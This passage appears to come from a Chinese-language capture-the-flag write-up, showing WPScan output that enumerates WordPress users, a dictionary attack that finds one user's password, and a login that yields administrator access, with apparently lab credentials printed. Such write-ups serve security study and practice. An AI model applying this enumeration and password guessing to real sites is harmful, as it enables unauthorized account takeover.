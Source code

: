```shell

[i] No DB Exports Found.

[+] Enumerating Medias (via Passive and Aggressive Methods) (Permalink setting must be set to "Plain" for those to be detected)
 Brute Forcing Attachment IDs - Time: 00:00:00 <==============================> (100 / 100) 100.00% Time: 00:00:00

[i] No Medias Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <====================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] maybeadmin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] notadmin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up.

[+] Finished: Thu Jan 16 12:31:30 2020
[+] Requests Done: 3103
[+] Cached Requests: 14
[+] Data Sent: 981.093 KB
[+] Data Received: 984.625 KB
[+] Memory used: 215.057 MB
[+] Elapsed time: 00:00:07
```

拿到两个用户名，再跑下字典试试

找到一个对应的

```shell
[i] Valid Combinations Found:
 | Username: maybeadmin, Password: $EPid%J2L9LufO5
```

登陆试试

![Screenshot_2020-01-16_12-37-46](C:\Users\Eki\Projects\ctf-notes\assets\images\Screenshot_2020-01-16_12-37-46.png)

在密码保护页面里找到了notadmin的密码Pa$$w0rd13!&

登陆以后看起来我们拿到了wordpress的管理员用户
